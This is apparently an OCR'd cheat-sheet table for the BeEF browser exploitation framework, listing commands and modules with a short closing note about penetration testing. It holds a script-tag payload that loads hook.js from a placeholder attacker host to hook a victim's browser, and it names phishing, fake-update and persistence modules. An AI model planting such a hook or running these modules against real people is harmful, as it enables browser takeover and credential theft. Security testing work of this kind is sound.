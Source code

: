 | **Command/Action**                                  | **Description**                                                  |
|-----------------------------------------------------|------------------------------------------------------------------|
| `./beef`                                            | Start the BeEF server                                            |
| `http://localhost:3000/ui/panel`                    | Access the BeEF control panel                                    |
| `<script src="http://<BeEF_IP>:<BeEF_Port>/hook.js"></script>` | Hook a browser                                              |
| **Interact with Hooked Browsers**                   | Select and control a hooked browser                              |
| **Alert Popup**                                     | Execute a command to display a pop-up in the target's browser    |
| **Fake Flash Update**                               | Use social engineering to prompt a fake Flash update             |
| **Get Internal IP Address**                         | Perform network reconnaissance on the hooked browser             |
| **Persistent Hook**                                 | Maintain persistence on the hooked browser                       |
| **Exploit CVE-2014-6332**                           | Run an exploit module against a specific vulnerability           |
| **Facebook Phishing**                               | Use phishing techniques to capture credentials                   |
| **Monitor Logs**                                    | Log and monitor activity performed on hooked browsers            |
| **Configure BeEF**                                  | Modify settings in the `config.yaml` file                        |
| **Add Custom Modules**                              | Create and add custom modules to BeEF                            |
| `Ctrl + C`                                          | Exit the BeEF server                                             |

---

BeEF is a powerful tool for web-based attacks and social engineering, providing extensive control over compromised browsers. Its modular framework allows for a wide range of exploits and techniques to be applied, making it a valuable asset in penetration testing and red team operations.